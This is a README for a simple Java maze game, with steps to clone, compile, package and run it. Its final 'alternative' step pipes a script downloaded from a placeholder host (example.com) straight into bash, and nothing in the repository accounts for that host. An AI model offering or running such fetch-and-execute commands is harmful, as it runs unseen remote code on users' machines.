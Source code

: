 
<p align="left">
<img  alt="screenshot" width="500" src="https://github.com/elyeandre/SimpleMazeGame/blob/11fed763cf14c6d31fc77fc247dad53cc2e90a73/screenshot.png">
</p>

## How to Run This Game

To run this game, follow these steps:


1. Ensure that you have Java installed on your system. To check whether Java is installed, use the following command:

    ```
    java --version
    ```
    
2. Clone this repository by executing the following command:

    ```
    git clone https://github.com/elyeandre/simple-maze-game
    ```

3. Inside the simple-maze-game folder, compile all the classes located in the src directory. This will place the compiled files into the bin folder:

    ```
    cd simple-maze-game
    ```
    ```
    javac -d bin src/**/*.java
    ```

4. Inside of bin folder, execute the following command to create a JAR file named `mygame.jar`:
    ```
    cd bin
    ```
    ```
    jar cvfm mygame.jar MANIFEST.MF .
    ```

5. You can now run the game using the following command:

    ```
    java -jar mygame.jar
    ```
- Alternatively, you can use this single command to download and run the game directly:

     ```
     wget -qO- https://example.com/install_game.sh | bash
     ```


